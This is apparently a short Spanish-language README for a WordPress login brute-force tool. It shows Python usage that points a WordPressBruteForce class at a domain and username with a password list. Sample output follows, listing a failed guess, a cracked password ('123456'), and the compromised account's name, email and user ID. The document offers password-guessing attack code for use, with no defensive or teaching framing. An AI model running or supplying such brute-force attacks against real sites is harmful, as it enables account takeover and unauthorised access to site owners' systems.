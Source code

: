 # WP-Login- Brute-Force


# Crea una instancia de la clase WordPressBruteForce
wp = WordPressBruteForce(wp_domain='example.com', wp_username='username')

# Realiza un ataque de fuerza bruta utilizando el archivo 'passwords.txt'
wp.brute_force_attack('password.txt')

RESULT

Contraseña para "usuario1" Incorrecta.<br>
Autenticación -> "usuario2" | Password: "123456"<br>
Nombre de usuario: usuario2<br>
Nombre: Usuario<br>
Apellido: 2<br>
Correo electrónico: admin@example.com<br><br>
ID de usuario: 1<br>
